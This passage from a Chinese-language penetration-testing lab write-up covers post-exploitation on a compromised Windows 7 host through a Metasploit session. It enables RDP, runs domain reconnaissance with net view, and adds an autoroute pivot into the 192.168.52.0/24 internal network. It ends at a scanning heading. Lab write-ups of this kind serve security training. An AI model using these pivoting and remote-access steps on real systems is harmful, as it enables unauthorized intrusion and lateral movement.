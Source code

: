 ### 开启3389

```
run post/windows/manage/enable_rdp
```

### 内网搜集

```
ipconfig
```

看到win7的另一个网卡的ip

![image-20230516203830987](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516203830987.png)

(中文字符编码问题出现的乱码，将就看吧)

```
//解决乱码问题
chcp 65001
```

使用`ipconfig /all`查看DNS服务器，推测DNS服务器名为god.org：

![image-20230516204144471](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516204144471.png)

查看域信息：`net view`

查看主域信息：`net view /domain`

![image-20230516204606672](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516204606672.png)

# 0x5横向渗透

## 添加路由

查看路由信息，添加路由到目标网络，以此使得MSF能够通过Win7路由转发访问,使得msf命令能够通过win7 访问到内网

查看目标机器所在内网网端信息与公网网端信息：

```
run get_local_subnets
```

![image-20230516205226856](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516205226856.png)

添加内网路由 使得msf6能通过win7路由转发访问内网192.168.52.0/24网段：

```
run autoroute -s 192.168.52.0/24
```

![image-20230516205335183](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516205335183.png)

## 扫描192.168.52.0/24网段：
